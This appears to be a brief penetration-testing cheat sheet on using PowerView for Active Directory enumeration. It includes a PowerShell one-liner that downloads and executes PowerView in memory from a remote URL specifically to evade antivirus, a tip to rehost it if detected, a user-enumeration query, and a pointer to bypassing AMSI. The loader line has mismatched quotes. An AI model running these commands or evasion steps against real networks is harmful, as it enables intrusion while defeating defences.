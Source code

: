 # Updates:

| date | name | description | comment | link |
| --- | --- | --- | --- | --- |
| 07/2020 | PowerView | Different tools for enumaration in Active Directory | Active Directory | [PowerView](#PowerView) |


# PowerView

## Using PowerView: 

cheatsheet: https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters/powerview

## Load into memory from remote (to avoid AV detection):

> iex ((New-Object System.Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1"))```
  
**NOTE:** if AV detects the URL, then just host it somewhere on your own
    
## Use something like this syntax:

> Get-NetUser -Filter "(title=Test Developer Junior)" | select name,samaccountname,title,manager

## Avoiding Antivirus:

In case AV prevents executing PowerShell scripts, try to bypass AMSI (https://www.youtube.com/watch?v=yHstFvLwDYM)

---
